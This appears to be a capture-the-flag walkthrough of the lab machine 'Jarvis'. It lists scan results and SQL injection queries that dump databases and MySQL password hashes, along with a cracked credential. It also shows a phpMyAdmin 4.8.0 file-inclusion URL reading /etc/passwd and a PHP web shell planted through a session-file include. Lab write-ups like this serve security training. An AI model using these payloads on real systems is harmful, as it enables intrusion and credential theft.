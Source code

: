 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Jarvis
# 15/3/2023
10.10.10.143

----------------------------------------------------
# creds
----------------------------------------------------
DBadmin:imissyou


----------------------------------------------------
# nmap
----------------------------------------------------
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))

----------------------------------------------------
# gobuster
----------------------------------------------------
/nav.php (Status: 200)
/footer.php (Status: 200)
/css (Status: 301)
/images (Status: 301)
/js (Status: 301)
/index.php (Status: 200)
/fonts (Status: 301)
/phpmyadmin (Status: 301)
/room.php (Status: 302)
/connection.php (Status: 200)
/sass (Status: 301)


A lot of the links don’t work, or go to static pages. But in clicking around, 
I noticed clicking on one of the “Book Now” buttons leads to room.php, 
which takes a GET parameter: http://10.10.10.143/room.php?cod=1.


----------------------------------------------------
# sqli
----------------------------------------------------
List DBs	
SELECT 1, group_concat(schema_name), 3, 4, 5, 6, 7 from information_schema.schemata;-- -
Show Tables in hotel	
SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='hotel' ;-- -
Show Columns in room	
SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='room';-- -
Show Tables in mysql	
SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='mysql' ;-- -
Show Columns in user	
SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='user';-- -
Get Username / Password	SELECT 1, user,3, 4,password, 6, 7 from mysql.user;-- -

DBadmin
2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
MYSQL5 2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou

----------------------------------------------------
# exploitation
----------------------------------------------------

http://10.10.10.143/phpmyadmin/
DBadmin:imissyou

I can see the version is 4.8.0:

The LFI is because there is an inconsistency in 
how %3f is handled in the security check and the include. 
I can visit 
http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%3f/../../../../etc/passwd
and see the include works:

lfi
http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%3f/../../../../etc/passwd

Now it’s just a matter of getting some php code I want to run on the site. I can do that by issuing a SQL query, and then including my php session info.

I’ll click on the “SQL” tab at the top, and enter the query:

SELECT '<?php system($_GET["cmd"]);?>'
Now, I’ll include my php session info. I’ll check burp to grab my phpMyAdmin cookie, and visit: http://10.10.10.143/phpmyadmin/index.php?cmd=id&target=db_sql.php%3f/../../../../../var/lib/php/sessions/sess_e3qctegac4saf72rocbl1541j26u7mqm
32pkjpcf63gkl0ko52n4m6b4d5